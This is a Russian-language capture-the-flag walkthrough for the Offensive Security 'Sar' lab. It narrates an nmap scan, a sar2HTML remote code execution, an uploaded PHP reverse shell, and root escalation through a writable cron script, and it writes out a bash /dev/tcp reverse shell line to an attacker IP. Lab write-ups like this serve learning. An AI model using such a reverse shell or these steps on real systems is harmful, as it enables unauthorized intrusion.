

# Offensive Security: Sar

Для начала произведем сканирование целевого хоста при помощи Nmap:

```sh
nmap -sC -sV -p- 192.168.246.35
```


Найдено:
- 22 port - SSH (OpenSSH 7.6p1)
- 80 port - HTTP (Apache/2.4.29)

Осмотрим сайт:


Сканируем директории:


Заходим на `robots.txt`:


Находим сервис `sar2HTML`:


Директория с файлами:


Поищем эксплойты:


RCE... Весело! Копируем сплойт на рабочий стол для удобства:


Запускаем:


Сделаем reverse shell через `php-reverse-shell.php`. Этот файл скопирован на рабочий стол из `/usr/share/webshells/php/php-reverse-shell.php`. Настраиваем:


Открываем HTTP сервер средствами python:



Проверяем, что файл доступен на сервере:


Скачиваем скрипт на атакуемый компьютер:


Прослушиваем порт:


Активируем скрипт:


Получаем оболочку:


Первый флаг:


Дальше кинем `linpeas.sh` на наш python-сервер и затем на атакуемый хост:


Скачиваем с нашего сервера файл `linpeas.sh`:


Запускаем скрипт:


Находим артефакт в `crontab`:


Находим файл `finally.sh` и `write.sh`:


Получается следующая картина - мы записываем `'bash -c "bash -i >& /dev/tcp/192.168.45.165/5555 0>&1"'` в `write.sh`, который затем запускается в `finally.sh`, который имеет права `root`, значит и оболочку мы должны получить от пользователя `root`. Слушаем второй порт:


Запись в файл `write.sh`:


Тут я немного ошибся и перезаписал файл:


Через некоторое время `crontab` выполнит действие по запуску файла и мы получим оболочку, а также второй флаг:


---
